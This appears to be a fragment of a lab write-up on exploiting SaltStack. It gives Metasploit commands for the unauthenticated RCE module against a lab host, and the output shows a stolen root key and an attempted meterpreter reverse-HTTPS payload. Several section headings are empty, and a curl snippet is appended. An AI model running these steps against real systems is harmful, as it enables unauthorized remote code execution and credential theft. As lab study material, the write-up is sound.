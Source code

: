 ### Metasploit
```bash
msfconsole
search saltstack
use exploit/linux/misc/saltstack_salt_unauth_rce
set LHOST tun0
set RHOST 192.168.152.62
run

# output
[*] Started HTTPS reverse handler on https://192.168.49.152:8443
[*] 192.168.152.62:4506 - Using auxiliary/gather/saltstack_salt_root_key as check
[*] 192.168.152.62:4506 - Connecting to ZeroMQ service at 192.168.152.62:4506
[*] 192.168.152.62:4506 - Negotiating signature
[*] 192.168.152.62:4506 - Negotiating version
[*] 192.168.152.62:4506 - Negotiating NULL security mechanism
[*] 192.168.152.62:4506 - Sending READY command of type REQ
[*] 192.168.152.62:4506 - Yeeting _prep_auth_info() at 192.168.152.62:4506
[+] 192.168.152.62:4506 - Root key: 5u3LOWydLI0nuQQVb7ylzbEKeWTZvhaLeT0w9RTHBYtq6lq0stud6KdzDTJa9WtWXOQzF27Bg1s=
[*] 192.168.152.62:4506 - Connecting to ZeroMQ service at 192.168.152.62:4506
[*] 192.168.152.62:4506 - Negotiating signature
[*] 192.168.152.62:4506 - Negotiating version
[*] 192.168.152.62:4506 - Negotiating NULL security mechanism
[*] 192.168.152.62:4506 - Sending READY command of type REQ
[*] 192.168.152.62:4506 - Executing Python payload on the master: python/meterpreter/reverse_https
[*] 192.168.152.62:4506 - Yeeting runner() at 192.168.152.62:4506
[*] Exploit completed, but no session was created.
```

# Explore

# Escalate

# Effect

# Lessons Learned
* (ZMTP) is a transport layer protocol for exchanging messages between two peers over a connected transport layer such as TCP (ref: https://rfc.zeromq.org/spec/23/).
* CherryPy is an object-oriented web application framework using the Python programming language. It is designed for rapid development of web applications by wrapping the HTTP protocol but stays at a low level and does not offer much more than what is defined in RFC 7231
* Saltstack listens on TCP port 4505 and 4506. It also uses the ZMTP protocol. 
* Make sure you can justify your exploits with plenty of enumeration (why go down a rabbit hole without reason?).

```bash
Curl

Next, we’ll run curl in a verbose mode against port 8000.

kali@kali:~$ curl http://192.168.120.121:8000 -v
*   Trying 192.168.120.121:8000...
* Connected to 192.168.120.121 (192.168.120.121) port 8000 (#0)
> GET / HTTP/1.1
> Host: 192.168.120.121:8000
> User-Agent: curl/7.72.0
> Accept: */*
> 
```